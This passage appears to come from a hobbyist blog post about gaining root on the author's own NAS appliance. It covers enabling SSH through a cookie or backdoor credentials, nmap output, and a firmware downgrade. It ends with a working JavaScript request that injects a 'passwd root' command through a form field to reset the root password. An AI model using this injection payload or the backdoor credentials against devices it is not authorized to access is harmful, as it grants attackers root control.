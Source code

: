 ```
document.cookie = "aton_nas_ssh=true"
```

Alternatively, the username/password combination of
`atonnas`/`backdoor` should work.

Click on "ssh" in the left frame, or go directly to
`/admin/ssh.php`, and check the box and save.  Our trusty
friend `nmap` can help verify SSH is actually now enabled.

```
Starting Nmap 6.47 ( http://nmap.org ) at 2015-01-03 15:13 PST
Nmap scan report for 192.168.10.164
Host is up (0.0043s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7 (protocol 2.0)
[...]
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.23 seconds
```

Excellent, so now we have SSH running, but we still don't have an account to use
with SSH.

## Getting Root

I came across a couple forum posts and [a helpful blog
post](http://asham.ca/hardware/2013/12/getting-root-and-sshd-on-boot-with-the-shuttle-omninas-kd20/),
but having updated the firmware right away to the latest version, the exploit
used in the latter was no longer viable. After much digging, I still couldn't
find a way around it, so I eventually just downloaded and flashed an older
version of the firmware (`2.35.x`) which still contained the
vulnerability.

With the older firmware in place, I was able to reset the root password and gain
SSH access through a couple malformed requests to one of the form endpoints, as
mentioned in the aforementioned blog post.

```javascript
$.ajax({
  type: "POST",
  url: "http://192.168.10.164/action/healthy_action.php",
  cache: false,
  data: "devName=/dev/sda; (echo \"password\npassword\n\" | sudo passwd root)",
  success: function(data) { console.log(data) }
});
```
The endpoint you're hitting is a bridge to the `smartctl` command, so
a bunch of info about `/dev/sda` will be printed to the console. If
everything worked as expected, and `root` should have the password
`password`. You should now be able to successfully get a shell.
